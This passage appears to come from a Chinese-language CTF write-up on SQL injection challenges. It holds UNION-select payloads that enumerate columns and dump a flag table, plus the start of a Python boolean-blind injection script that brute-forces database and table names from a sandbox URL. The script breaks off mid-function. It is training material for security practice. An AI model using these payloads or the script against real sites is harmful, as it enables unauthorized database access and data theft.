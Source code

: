 查找列

```sql
' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' #
```

![image-20230828103437081](https://img1.imgtp.com/2023/09/03/JEAk0kaQ.PNG)

查找列内容

```sql
' union select 1,group_concat(flag) from sqli.flag #
```

![image-20230828103726958](https://img1.imgtp.com/2023/09/03/QjMbTgoi.png)

### 06 sql注入之报错型注入



### 07 sql注入之布尔盲注

```python
import requests
import time

urlOPEN = 'http://challenge-45c8b825d982f37a.sandbox.ctfhub.com:10800/?id='
starOperatorTime = []
mark = 'query_success'
#成功显示结果


def database_name():
    name = ''
    for j in range(1, 5):
        for i in 'sqcwertyuioplkjhgfdazxvbnm':
            url = urlOPEN + 'if(substr(database(),%d,1)="%s",1,(select table_name from information_schema.tables))' % (
            j, i)
            # print(url+'%23')
            r = requests.get(url)
            if mark in r.text:
                name = name + i

                print(name)

                break
    print('database_name:', name)


database_name()


def table_name():
    list = []
    for k in range(0, 4):
        name = ''
        for j in range(1, 9):
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN + 'if(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' % (
                k, j, i)
                # print(url+'%23')
                r = requests.get(url)
```